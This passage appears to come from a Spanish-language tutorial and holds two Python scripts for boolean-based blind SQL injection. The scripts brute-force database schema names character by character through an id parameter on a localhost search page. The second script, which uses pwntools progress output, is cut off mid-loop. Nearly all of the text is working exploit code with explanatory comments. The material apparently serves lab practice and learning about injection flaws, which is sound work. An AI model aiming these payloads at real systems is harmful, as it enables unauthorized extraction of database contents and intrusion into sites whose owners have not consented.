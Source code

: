 ```python
	        # Aca se define la URL con la inyección buscando la información que queramos, en este caso queremos listar los nombre de todas las bases de datos.
            sqli_url = main_url + "?id=4 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)= %d)" % (position, character) # String formatting
            
            # Aca se define la petición por get, la cual brindara muchos 404 y muchos 200, nosotros queremos los 200 que son las combinaciones exitosas de letras.
            r = requests.get(sqli_url)

            # Aca se define el condicional para decirle que queremos que nos muestre aquella respuesta que tenga un 200OK y que pase ese caracter a legile ya que esta en hex.
            if r.status_code == 200:
                print(chr(character))
                break

if __name__ == '__main__':

    makeSQLI()
```
#### Script Python usando PWN tools (Estético)
```python
#!/usr/bin/python3

# BOOLEAN BASED BLIND SQLI ------------------------------------------------------------

import requests
import signal
import sys
import string
from pwn import *

def def_handler(sig, frame):
    print ("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c 
signal.signal(signal.SIGINT, def_handler)

# Variables GLOBALES
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Datos extraidos")

    extracted_info = ""

    for position in range(1, 200):
        for character in range(33, 127):
            sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)=%d)" % (position, character) 
            
            p1.status(sqli_url)

            r = requests.get(sqli_url)
```